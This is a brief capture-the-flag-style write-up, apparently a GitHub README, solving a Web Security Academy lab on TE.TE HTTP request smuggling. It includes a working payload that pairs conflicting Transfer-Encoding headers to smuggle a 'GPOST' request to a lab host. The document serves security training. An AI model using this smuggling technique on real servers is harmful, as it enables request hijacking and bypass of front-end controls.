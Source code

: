 # obfuscating-te-header

## This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method.

## To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`

### Note: => TE.TE: the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.

---

### step 1

![screenshot](./images/images_lab3/lab3_get_request_homepage.png)

### step2

![screenshot](./images/images_lab3/lab3_post_request_homepage.png)

### step3

unchecked Update Content-Length in repeater setting
add payload

### Note:

### Transfer-Encoding: chunked

### Transfer-Encoding: chunked

if both will chunked then payload will not work

```
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: xchunked

9d
GPOST / HTTP/1.1
Host: 0a5b002e03412337873679e2002900db.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

![screenshot](./images/images_lab3/lab3_payload.png)

### step4

![screenshot](./images/images_lab3/lab3_solved_message.png)
